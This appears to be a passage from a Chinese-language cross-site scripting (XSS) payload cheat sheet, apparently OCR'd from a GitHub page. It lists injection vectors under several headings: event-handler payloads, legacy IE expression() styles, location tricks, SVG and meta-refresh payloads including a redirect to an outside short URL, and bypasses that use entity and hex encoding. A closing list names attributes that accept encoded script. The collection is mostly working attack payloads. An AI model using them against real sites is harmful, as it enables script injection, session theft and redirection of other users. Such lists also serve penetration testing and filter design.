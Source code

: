 ```
    <a onmouseover="javascript:window.onerror=alert;throw 1>
    <img src=x onerror="javascript:window.onerror=alert;throw 1">
    <body/onload=javascript:window.onerror=eval;throw&#039;=alert\x281\x29&#039;;
```
Expression 属性
```
    <img style="xss:expression(alert(0))"> // Works upto IE7.
    <div style="color:rgb(&#039;&#039;x:expression(alert(1))"></div>      // Works upto IE7.
    <style>#test{x:expression(alert(/XSS/))}</style>      // Works upto IE7
```
“location”属性
```
    <a onmouseover=location=’javascript:alert(1)>click
    <body onfocus="location=&#039;javascrpt:alert(1) >123
```
其他Payload
```
    <meta http-equiv="refresh"      content="0;url=//goo.gl/nlX0P">
    <meta http-equiv="refresh"      content="0;javascript&colon;alert(1)"/>
    <svg xmlns="http://www.w3.org/2000/svg"><g      onload="javascript:\u0061lert(1);"></g></svg> //      By @secalert
    <svg xmlns:xlink=" r=100 /><animate attributeName="xlink:href"      values=";javascript:alert(1)" begin="0s"      dur="0.1s" fill="freeze"/> // By Mario
    <svg><![CDATA[><imagexlink:href="]]><img/src=xx:xonerror=alert(2)//"</svg>      // By @secalert
    <meta content="&NewLine; 1 &NewLine;;JAVASCRIPT&colon; alert(1)" http-equiv="refresh"/>
    <math><a xlink:href="//jsfiddle.net/t846h/">click // By Ashar Javed
```
（）；：被过滤
```
    <svg><script>alert&#40/1/&#41</script>      // Works With All Browsers
    ( is html encoded to &#40
    ) is html encoded to &#41
```
Opera的变量
```
    <svg><script>alert&#40      1&#41 // Works with Opera Only
```
实体解码
```
&lt;/script&gt;&lt;script&gt;alert(1)&lt;/script&gt;
<a  href="j&#x26;#x26#x41;vascript:alert%252831337%2529">Hello</a>
```
编码

JavaScript是很灵活的语言，可以使用十六进制、Unicode、HTML等进行编码，以下属性可以被编码（支持HTML, Octal, Decimal,
Hexadecimal, and Unicode）
```
href=
action=
formaction=
location=
on*=
name=
background=
poster=
src=
code=
data= //只支持base64
```
基于上下文的过滤
